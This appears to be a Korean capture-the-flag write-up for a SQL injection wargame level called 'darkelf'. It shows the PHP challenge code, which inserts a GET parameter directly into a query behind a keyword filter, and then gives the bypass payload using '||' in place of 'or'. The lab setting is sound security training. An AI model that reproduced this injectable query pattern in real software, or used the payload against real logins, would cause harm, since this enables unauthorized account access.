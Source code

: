 # darkelf

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- `or`, `and`를 필터링 한다.

## 3. Solution
`or`, `and` 연산자 우회를 통해 문제를 해결할 수 있다.



변수명 | 값
---|:---:
`pw` | 1234' || id='admin



`or`과 `and`는 각각 `||`, `&&`로 우회해 주면 된다.